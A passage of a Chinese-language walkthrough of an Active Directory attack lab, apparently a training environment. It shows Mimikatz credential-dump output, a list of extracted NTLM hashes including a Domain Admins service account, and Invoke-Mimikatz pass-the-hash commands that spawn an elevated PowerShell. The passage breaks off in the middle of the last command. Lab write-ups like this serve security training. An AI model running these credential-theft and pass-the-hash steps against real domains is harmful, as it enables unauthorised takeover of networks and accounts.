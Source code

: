 Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-MGMT$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:23 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : DCORP-MGMT$
         * Domain   : dcorp
         * Password : (null)
        kerberos :
         * Username : dcorp-mgmt$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
        ssp :
        credman :
```

整理出所有导出的用户哈希
```
SQLTELEMETRY：639c1adde3e0d1ba0d733c7d0d8f23ec
DCORP-MGMT$：639c1adde3e0d1ba0d733c7d0d8f23ec
mgmtadmin：95e2cd7ff77379e34c6e46265e75d754
svcadmin：b38ff50264b74508085d82c69794a4d8
```

因为svcadmin是Domain Admins组成员，我们已经成功取得这个域的特权账号。



## 提权到Domain Admins方法（一）Over the hash

使用下面命令可以利用高权限哈希生成一个令牌shell
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```


回到我们的学生靶机，现在我们有了svcadmin的哈希信息，可以回到学生靶机用Mimikatz运行一个有Domain Admins权限的shell。需要注意，新打开的shell，还是在学生机里面，我们并没有进入域控，但其实是有Domain Admins权限的
```
PS C:\Windows\system32> powershell -ep bypass
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd c:/ad
PS C:\ad> . .\Invoke-Mimikatz.ps1
PS C:\ad> Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74
508085d82c69794a4d8 /run:powershell.exe"'
